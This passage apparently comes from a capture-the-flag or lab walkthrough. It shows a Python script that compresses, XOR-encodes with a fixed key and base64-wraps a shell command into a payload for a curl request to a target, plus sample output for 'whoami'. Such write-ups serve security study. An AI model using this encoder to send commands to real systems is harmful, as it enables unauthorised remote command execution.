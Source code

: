 `vim ./cmd_payload.py`:
```python
#!/usr/bin/python3
import zlib
import base64
import argparse

# XOR key
key = "3ddf0d5c"
# Payload prefix and suffix
prefix = "b6e7a529b6c2"
suffix = "d598a771749b"

# XOR function
def xor_strings(input_bytes, key):
    l = len(input_bytes)
    c = len(key)
    # XOR each byte in input_bytes with the corresponding byte in the key
    result = bytes([input_bytes[i] ^ ord(key[i % c]) for i in range(l)])
    return result

# Argument parser setup
parser = argparse.ArgumentParser(description="Create an encoded payload for the command.")
parser.add_argument("--cmd", type=str, required=True, help="The command to encode, e.g. 'whoami'")
args = parser.parse_args()

# The command to be encoded
command = args.cmd
print(f"Original command: {command}")

# Step 1: Compress the command
compressed_command = zlib.compress(command.encode())
print(f"Compressed command (bytes): {compressed_command}")

# Step 2: XOR the compressed command
xored_command = xor_strings(compressed_command, key)
print(f"XORed command (bytes): {xored_command}")

# Step 3: Base64 encode the result
encoded_command = base64.b64encode(xored_command).decode()
print(f"Base64 encoded payload: {encoded_command}")

# Final output to be used in the curl command
print(f"Final payload to use: {prefix}{encoded_command}{suffix}")
```

`chmod +x ./cmd_payload.py`

<❌ Failed Step.>
`./cmd_payload.py --cmd='whoami'`:
```
Original command: whoami ←
Compressed command (bytes): b'x\x9c+\xcf\xc8O\xcc\xcd\x04\x00\x08\xfa\x02\x86'
XORed command (bytes): b'K\xf8O\xa9\xf8+\xf9\xae7dl\x9c2\xe2'
Base64 encoded payload: S/hPqfgr+a43ZGycMuI= ←
Final payload to use: b6e7a529b6c2S/hPqfgr+a43ZGycMuI=d598a771749b ←
```
